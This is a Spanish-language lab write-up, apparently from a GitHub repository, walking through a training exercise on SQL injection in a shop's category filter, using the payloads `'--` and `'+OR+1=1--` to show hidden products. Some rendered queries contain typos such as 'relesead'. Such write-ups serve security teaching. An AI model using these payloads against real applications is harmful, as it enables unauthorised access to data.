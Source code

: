 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)

---

Tenemos un sitio web para realizar compras de productos:
![image](https://github.com/user-attachments/assets/e7f1d850-f540-4cfc-9495-0bae72bb061e)

Podemos buscar productos y realizar filtros según su categoría, probamos filtrar por `Gifts`:
![image](https://github.com/user-attachments/assets/a82cdd53-a451-41de-8bbc-b3da6aedd74f)

Nosotros sabemos que la consulta por detrás es la siguiente:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Y sabemos que el valor de `category` lo toma del parámetro de la url `?category=Gifts`.

Procedemos a intentar romper al consulta, añadiendo el caracter `'`, lo cual cerraría la consulta de la siguiente forma:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND relesead = 1
```
La última parte de la consulta (`' AND relesead = 1`) queda por fuera y podría causar un error de sintaxis:
![image](https://github.com/user-attachments/assets/b8469c86-9f5b-422f-9eda-9ed3f7cc83d5)

Este es el primer indicador de que podría haber inyección SQL.


Lo que hacemos ahora es añadir el siguiente payload: `'--`
Por lo cual la consulta completa sería:
```sql
SELECT * FROM products WHERE category = 'Gifts''-- AND relesead = 1
```
Que es lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'
```


![image](https://github.com/user-attachments/assets/4540d5d6-30f7-45fe-8550-40f44392e647)

Como vemos se realizó la consulta, lo cual confirmamos que hay inyección SQL.

Procedemos a resolver el lab inyectando el siguiente payload: `'+OR+1=1--`

Por lo que la cadena de consulta quedaría:

```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1-- AND relesead = 1
```
Que sería lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1
```

Lo cual se traduce en `mostrame todas las filas de la tabla products donde la categoria es Gifts o donde 1=1`. Por lo que mostrará todos los productos:

![image](https://github.com/user-attachments/assets/acec4257-02e1-4607-a0c5-b9b481997939)




